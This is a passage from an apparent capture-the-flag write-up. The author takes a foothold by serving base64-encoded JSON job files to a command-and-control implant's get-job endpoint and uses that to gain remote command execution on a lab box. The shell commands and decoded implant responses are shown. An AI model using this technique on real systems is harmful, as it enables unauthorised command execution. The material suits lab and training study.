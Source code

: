 Soon after starting the server we see calls coming in for the  `heartbeat` endponit as well as a new one to `get-job`. The filename at the end of the `get-job` endponit decodes to `"latest"`, suggesting we can provide new job instructions here. 

## Foothold

To begin interacting with the box, we'll host a file at `/get-job/ImxhdGVzdCI=` for the implant to pull. We'll seed it with a `ls` command to start.

```bash
┌──(user㉿kali-linux-2022-2)-[~]
└─$ mkdir get-job

┌──(user㉿kali-linux-2022-2)-[~]
└─$ echo 'ls' > get-job/ImxhdGVzdCI=
```
{: .nolineno }
After a brief wait we see the implant call our file, followed by a second call to a new endpoint `job-result`!

```bash
10.10.115.84 - - [02/Aug/2023 17:31:02] "GET /job-result/eyJzdWNjZXNzIjogZmFsc2UsICJyZXN1bHQiOiAiRW5jb2RpbmcgZXJyb3IifQ==
```
{: .nolineno }

Decoding the base 64 we see 
```json
{"success": false, "result": "Encoding error"}
```
{: .nolineno }

OK, so it wants the payload back in base 64 as well. On the next round we'll encode the payload:

`echo 'ls' | base64 > get-job/ImxhdGVzdCI=`

The implant reads this and returns:

```json
{"success": false, "result": "JSON error"}
```
{: .nolineno }

Now it wants JSON. At least we're moving forward! Let’s try the JSON format we received in the heartbeat message. 

We submit:

`echo '{"job_id": 0, "cmd": "ls"}' | base64 > get-job/ImxhdGVzdCI=`

We receive:

```json
{"job_id": 0, "cmd": "ls", "success": true, "result": "products.py\nuser.txt\n"}
```
{: .nolineno }

We've achieved RCE and found the first flag already, *let's grab it right now!*
